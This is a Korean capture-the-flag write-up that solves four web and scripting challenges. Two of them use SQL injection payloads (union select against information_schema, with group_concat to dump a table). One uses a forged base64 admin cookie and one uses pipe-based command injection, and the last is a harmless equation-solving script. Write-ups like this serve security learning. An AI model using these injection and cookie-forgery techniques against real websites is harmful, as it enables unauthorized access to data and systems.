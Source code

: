 고등해커 Write_Up (Yung Wave)
============================
## Legendary feather
----------------------

### 문제 해결 흐름

> 문제 링크를 들어가 보니, 1 2 3 페이지가 존재했고, url 창에 no=숫자 형식으로 사이트가 바뀜
  >> 여기서 no=를 이용하여 풀어야겠다고 생각을하게 됨
   >>> 그래서 각종 or and * + 등을 넣어본 결과 and가 먹힌다는 정보 발견!

#### 위 과정을 통해 정보를 얻고, and와 sql문을 이용하여 테이블 이름, 컬럼 이름, 컬럼 개수를 알아내 문제를 해결함

### 문제 풀이

#### and 입력 가능한지 확인
![and 입력 시도](./선린의털(1).PNG)

위 사진과 같이 and가 먹히는걸 확인할 수 있다.
#### 컬럼 개수 알아 내기
![컬럼 갯수 알아내기](./선린의털(2).PNG)

위 사진과 같이 order by를 이용하여 컬럼 개수를 알아냈다.

> no=3 and 3 order by 1
> 
> no=3 and 3 order by 2
> 
> no=3 and 3 order by 3 여기서 부터 오류

따라서 컬럼 개수는 2개

![테이블 이름 알아내기](./선린의털(3).PNG)

> no=3 union select 1,info from information_schema.processlist order by 1

쿼리 출력을 이용하여 컬럼명이 contents

![컬럼 이름 알아내기](./선린의털(4).PNG)

> no=3 union select 1, group_concat(column_name) from information_schema.columns where table_name="contents" order by 1

contents 테이블에서 group_concat으로 컬럼 이름을 한줄로 묶어서 출력 
(order by로 no을 정렬해줘서 원하는 정보인 컬럼 이름 출력)

![fleg 알아내기!](./선린의털(5).PNG)

> no=3 union select 1, group_concat(content) from contents order by 1

이렇게 content에 있는 내용을 전부 합쳐 no 1에 맞춰주고 정렬하여 출력해줬다.

##### flag : Sunrin{Baby_integer_based_sql_injection}

## Basic login
--------

### 문제 해결 흐름
> sunrin 으로 로그인하여 f12로 쿠키 확인 
> > username값 확인 (base64 인코딩 되어있음)
> >> admin (base64로 인코딩)해서 username 값에 넣기

![쿠키 확인](./Basic_Login(1).PNG)

개발자 도구로 username 변수 값 확인

base64 디코딩 해보니 sunrin

![flag 얻기](./Basic_Login(2).PNG)

admin을 base64로 인코딩하여 username 변수에 대입

새로고침 -> clear

##### flag : Sunrin{C0okie_f0rgery_1s_e4sy}

## nslookup
--------

### 문제 해결 흐름
> 이 문제와 비슷한 문제를 본적이 있음
> > 리눅스 명령어를 활용하여 풀어야 한다는 것을 바로 느낌
> >> 리눅스 명령어를 활용해 풀기

![ls 입력](./nslookup(1).PNG)

> 아무 값 | ls

or 이용해서 파일을 한번 봤는데 flag 파일 발견

![flag 확인](./nslookup(2).PNG)

> 아무 값 | cat flag 파일 이름

##### flag : Sunrin{easy_command_injection_in_the_webapp}

## Easy Math Game
--------

### 문제 해결 흐름
> nc로 접속해보니 일반적인 방정식 문제였다.
> > 퍼블을 위해 파이썬으로 방정식 풀이 코드 작성하여 문제 풀기

![문제확인](./Easy_Math_Game(1).PNG)

위와 같이 문제 확인

![코드 테스트](./Easy_Math_Game(2).PNG)

##### 계수 입력하면 풀어주는 코드

```
from sympy import Symbol, solve, Eq

for i in range(8):
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(6):
        a.append(int(input()))

    e1 = Eq(a[1]*y, -a[0]*x + a[2])
    e2 = Eq(a[4]*y, -a[3]*x + a[5])

    print(solve([e1, e2], x, y))

while True:
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(3):
        a.append(int(input()))
    
    eqn = Eq(a[0]*x**2 + a[1]*x + a[2], 0)
    print(solve(eqn, x))
```

![flag 확인](./nslookup(3).PNG)

##### flag : Sunrin{Th1s_1s_B4sic_m4th_g4m3}